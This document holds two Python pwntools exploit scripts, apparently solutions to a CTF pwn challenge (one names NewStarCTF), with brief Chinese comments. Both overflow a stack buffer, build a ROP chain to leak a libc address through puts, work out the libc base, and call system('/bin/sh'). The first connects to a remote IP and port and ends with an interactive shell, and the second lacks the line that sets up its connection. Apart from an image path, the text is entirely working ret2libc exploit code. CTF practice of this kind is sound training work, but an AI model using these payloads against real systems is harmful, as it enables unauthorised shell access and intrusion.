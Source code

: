 ```python
from pwn import *
#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("/home/feel/pypy/libc-2.31.so")
e=ELF("/home/feel/atta")
p = remote('8.147.132.32','15360')
pop_rdi_ret_addr = 0x400783
puts_plt = e.plt['puts'] #puts函数的入口地址
read_got = e.got['read']  #puts函数的got表地址
start_addr = e.symbols['_start'] #程序的起始地址
offset = 88
payload = b"a" * offset
payload += p64(pop_rdi_ret_addr)
payload += p64(read_got)
payload += p64(puts_plt)
payload += p64(start_addr)
#attach(p,"b *0x40121e")
p.recvuntil(b"Welcome to NewStarCTF!!!!")
#pause()
p.send(payload)
read_real_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
print("read_real_addr: ", hex(read_real_addr))
libc_base = read_real_addr - libc.sym["read"]
print("libc_base: ", hex(libc_base))
system_addr = libc_base + libc.sym["system"]
binsh_addr = libc_base + next(libc.search(b"/bin/sh"))
print("system_addr:{}".format(hex(system_addr)))
print("binsh_addr:{}".format(hex(binsh_addr)))
payload = b"a" * offset
payload += p64(0x400509) #需要添加一个ret，仅仅用于栈平衡
payload += p64(pop_rdi_ret_addr)
payload += p64(binsh_addr)
payload += p64(system_addr)
p.recv()
p.send(payload)
p.interactive()
```

```python
#另类libc
elf = ELF("./pwn")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
pop_rdi = 0x4008e3  # 0x00000000004008e3 : pop rdi ; ret
ret = 0x400576      # 0x0000000000400576 : ret
fgetc_got = elf.got['fgetc']
main = elf.sym['main']
puts_plt = elf.plt['puts']
payload = 'a'*(0x110 - 0x4) + '\x18' + p64(pop_rdi) + p64(fgetc_got) + 
p64(puts_plt) + p64(main)
io.sendlineafter("T^T\n", payload)
fgetc = u64(io.recv(6).ljust(8, "\x00"))
print hex(fgetc)
libc_base = fgetc - libc.sym['fgetc']
system_addr = libc_base + libc.sym['system']
bin_sh = libc_base + libc.search("/bin/sh").next()
print "libc_base = " + hex(libc_base)
payload = 'a'*(0x110 - 0x4) + '\x18' + p64(pop_rdi) + p64(bin_sh) + p64(ret) + 
p64(system_addr)
io.sendlineafter("T^T\n", payload)



```
